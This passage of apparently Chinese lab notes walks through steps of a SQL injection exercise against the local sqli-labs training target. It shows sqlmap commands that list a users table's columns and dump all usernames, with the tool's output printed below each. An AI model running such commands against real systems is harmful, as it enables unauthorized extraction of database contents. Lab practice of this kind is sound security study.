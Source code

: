 	3.查看列名
	sqlmap -u "http://127.0.0.1:80/sqli-labs/Less-1/?id=1" -D security -T users --columns

	Database: security
	Table: users
	[3 columns]
	+----------+-------------+
	| Column   | Type        |
	+----------+-------------+
	| id       | int(3)      |
	| password | varchar(20) |
	| username | varchar(20) |
	+----------+-------------+

	4.获得所有username
	sqlmap -u "http://127.0.0.1:80/sqli-labs/Less-1/?id=1" -D security -T users -C username --dump

	Database: security
	Table: users
	[16 entries]
	+-----------+
	| username  |
	+-----------+
	| admin     |
	| admin#    |
	| admin'#   |
	| admin1    |
	| admin2    |
	| admin3    |
	| admin4    |
	| admin\\'# |
	| Angelina  |
	| batman    |
	| dhakkan   |
	| Dumb      |
	| Dummy     |
	| secure    |
	| stupid    |
	| superman  |
	+-----------+
